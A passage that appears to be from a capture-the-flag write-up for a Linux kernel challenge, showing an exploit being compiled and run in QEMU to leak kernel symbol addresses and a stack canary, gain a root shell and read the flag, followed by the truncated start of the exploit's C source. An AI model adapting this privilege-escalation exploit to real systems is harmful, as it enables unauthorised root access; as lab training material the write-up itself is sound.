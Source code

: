 **5. Test**

```shell
lzy@lzy-virtual-machine:~/give_to_player$ gcc myexp.c -static -masm=intel -g -o myexp
lzy@lzy-virtual-machine:~/give_to_player$ mv myexp core/myexp 
lzy@lzy-virtual-machine:~/give_to_player$ cd core/
lzy@lzy-virtual-machine:~/give_to_player/core$ ./gen_cpio.sh core.cpio
.
./vmlinux
./lib64
./lib64/ld-linux-x86-64.so.2
......
......
lzy@lzy-virtual-machine:~/give_to_player/core$ cd ..
lzy@lzy-virtual-machine:~/give_to_player$ mv core/core.cpio .
lzy@lzy-virtual-machine:~/give_to_player$ ./start.sh 
qemu-system-x86_64: warning: TCG doesn't support requested feature: CPUID.01H:ECX.vmx [bit 5]
[    0.025101] Spectre V2 : Spectre mitigation: LFENCE not serializing, switching to generic retpoline
udhcpc: started, v1.26.2
udhcpc: sending discover
udhcpc: sending select for 10.0.2.15
udhcpc: lease of 10.0.2.15 obtained, lease time 86400
/ $ ls
bin          dev          init         linuxrc      root         tmp
core.cpio    etc          lib          myexp        sbin         usr
core.ko      gen_cpio.sh  lib64        proc         sys          vmlinux
/ $ ./myexp 
[+] Find: commit_creds: 0xffffffff8129c8e0
[+] Find: prepare_kernel_cred: 0xffffffff8129cce0
[+] Find canary: 0x1a562b8c7c3dc900
/ # id
uid=0(root) gid=0(root)
/ # whoami
root
/ # cat /root/flag 
test
```

exp:

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

#define CORE_READ 0x6677889B
#define CORE_OFF 0x6677889C
#define CORE_COPY 0x6677889A

size_t vmlinux_base,commit_creds_addr,prepare_kernel_cred_addr;
size_t user_cs,user_ss,user_sp,user_rflags;
size_t raw_vmlinux_base = 0xffffffff81000000;

void save_status()
{
	__asm__(
		"mov user_cs, cs;"
		"mov user_ss, ss;"
		"mov user_sp, rsp;"
```